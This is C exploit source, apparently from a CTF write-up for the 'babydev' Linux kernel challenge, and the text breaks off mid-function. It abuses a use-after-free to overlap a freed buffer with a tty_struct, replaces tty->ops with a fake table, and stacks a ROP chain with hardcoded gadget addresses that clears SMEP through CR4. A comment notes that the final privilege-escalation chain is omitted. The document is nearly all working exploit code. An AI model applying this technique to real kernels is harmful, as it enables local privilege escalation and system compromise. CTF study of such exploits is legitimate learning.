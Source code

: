 ### exp

```
#include <stdio.h>
#include <fcntl.h>

typedef unsigned long long  uint64;

void * fake_ops[0x34];
void * rop[0x100];

int main(){
    int fd1 = open("/dev/babydev", O_RDWR);
    if (fd1<0){
        printf("open /dev/babydev error\n");
        exit(-1);
    }
    int fd2 = open("/dev/babydev", O_RDWR);
    if (fd2<0){
        printf("open /dev/babydev error\n");
        exit(-1);
    }
    ioctl(fd1, 0x10001, 0x2e0);
    printf("set chunk size = 0x2e0 = sizeof(struct tty_struct)\n");
    close(fd1);
    //printf("close fd1, free chunk\n");

    int tty = open("/dev/ptmx", O_RDWR);
    if(tty<0){
        printf("open /dev/ptmx error\n");
        exit(-1);
    }

    // rop 
    int i = 0;
    rop[i++] = 0; 
    rop[i++] = 0xffffffff810d238d; // pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80; // mov cr4, rdi; pop rbp; ret;
    rop[i++] = 0;
		
		// rop => 提权 和kernel rop一样， 不写了

    // fake_ops
    for (int i=0; i<0x34; i++){
        fake_ops[i] = 0xffffffff81110c15; // ret;
    }

    fake_ops[0] = 0xffffffff8100202b;// pop rbp; ret;
    fake_ops[1] = rop;
    fake_ops[2] = 0xffffffff81002e44; // leave; ret;

    // ops->write 
    fake_ops[7] = 0xffffffff8181bfc5; // mov rax, rsp; dec ebx; ret;


    uint64 fake_tty[4];
    read(fd2, fake_tty, 0x20);
    // tty->ops
    fake_tty[3] = (uint64)fake_ops;
    write(fd2, fake_tty, 0x20);

    char buf[0x8] = {0};
```